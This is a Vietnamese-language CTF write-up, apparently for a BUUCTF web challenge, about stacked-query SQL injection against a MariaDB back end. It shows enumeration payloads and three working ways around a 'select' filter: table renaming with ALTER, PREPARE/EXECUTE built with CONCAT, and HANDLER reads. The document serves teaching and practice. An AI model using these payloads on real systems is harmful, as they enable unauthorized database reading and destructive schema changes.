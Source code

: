 Ta có form challenge như sau

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ba956a2c-9f5b-4fef-b246-a029fd614c45)

Và đây là khi mình sumbit thử 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d0ce2b7e-5994-4106-9906-62355e5e3dde)

Sau đó mình thử inject `1' --` thử có warning và ta đang biết web này đang xài MariaDB

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/54fa5535-99c7-4ec3-b585-f991ab42b287)

Kế đến mình sử dụng payload này `1' union select 1-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1a1272cb-283b-4614-a527-bd1f31757f0b)

Và kết quả là đã bị filter. Sau đó mình có thử comment và unicode nhưng không cho ra kết quả. Mình có đọc các wu khác thì họ chỉ dùng stack queries SQLi. Kỹ thuật này giúp ta có thể dùng nhiều truy vấn trên một hàng bằng cách sử dụng `;`

[readmore](https://www.sqlinjection.net/stacked-queries/#:~:text=Stacked%20Queries%20Execute%20multiple%20statements%20in%20the%20same,possible%20to%20modify%20data%20and%20call%20stored%20procedures.)

[and here](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

Và mình sử dụng payload này `1';show databases;-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/c17ad621-9502-487b-9084-f98058f0b710)

Và đã có kết quả trả về tất cả database. Mình sẽ thực hiện tương tự để xem các tables.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1ecd5392-1345-48d5-bbe6-3aeae0e8eb0e)

Khi mà ta có tables thì ta sẽ tìm columns (database->tables->columns). Ở đây có 2 columns là `words` và `1919810931114514`.

Payload: `1';show columns from words;-- -`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/fdb85091-f823-4e31-bfdd-f482b5692abc)

Không có gì đặc biệt, mình đổi qua columns còn lại. Chú ý ở đây là columns là dạng số nên ta phải bằng dấu `''`.

Payload: `1 ' ;show columns from `1919810931114514`;#`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e08b49a2-858a-467f-9f00-2c97e81a0a9c)

Và chúng ta đã có flag nhưng bài này đã bị block `select`.

Query cơ bản nếu mà ta không bị block đi `selecet` là : `select id, data from word where id=` ( vì từ query của cột words có 2 cột là id và data)

`1919810931114514` chỉ có 1 trường là flag.Do vậy ta sẽ lợi dụng điều này để đọc được flag. Có 3 cách 

- Cách 1: sử dụng alter
```
1'; alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);#

///
1'; alter table words rename to words1;: Dòng này cố gắng thay đổi tên của bảng "words" thành "words1". 

alter table 1919810931114514 rename to words;: Dòng này cố gắng đổi tên bảng có tên "1919810931114514" thành "words".

alter table words change flag id varchar(50);: Dòng này cố gắng thay đổi cấu trúc bảng "words" bằng cách đổi tên cột "flag" thành "id" và đặt kiểu dữ liệu cho cột "id" thành "varchar(50)".
```

- Cách 2: sử dụng prepare
```
1';
set @a = CONCAT( ' se ' , ' lect *  from  `1919810931114514`; ' ); 
prepare flag from @a;
EXECUTE flag;#
///
set @a = CONCAT(' se ', ' lect * from 1919810931114514;' );: Đây là một truy vấn SQL bình thường, nhưng nó được lưu trong biến @a. Trong trường hợp này, nó sẽ chọn tất cả các dòng từ bảng có tên là 1919810931114514.

prepare flag from @a;: Dòng này tạo một chuẩn bị truy vấn sử dụng giá trị trong biến @a. Cụ thể, nó tạo một truy vấn dự phòng có tên là "flag" từ giá trị của biến @a.

EXECUTE flag;: Dòng này thực thi truy vấn dự phòng có tên "flag" mà chúng ta vừa chuẩn bị. Do đó, nó sẽ thực hiện truy vấn SQL được lưu trong biến @a, tức là lấy tất cả dữ liệu từ bảng 1919810931114514.
```

- Cách 3: Sử dụng handler
```
1';handler `1919810931114514` open as ye;
handler ye read first;
handler ye close;#
///
1';handler 1919810931114514 open as ye;: Dòng này cố gắng mở bảng "1919810931114514" bằng cách sử dụng tính năng "handler". Nó sử dụng một dấu ' để kết thúc câu lệnh SQL gốc và sau đó thêm một câu lệnh "handler" để mở bảng và gán nó cho một bộ đối tượng có tên là "ye".

handler ye read first;: Dòng này cố gắng đọc dòng đầu tiên từ bảng đã được mở bằng cách sử dụng bộ đối tượng "ye". Có thể thực hiện các hoạt động đọc dữ liệu từ bảng bằng cách sử dụng "handler".

handler ye close;: Dòng này cố gắng đóng bảng đã được mở trước đó bằng cách sử dụng bộ đối tượng "ye".
```



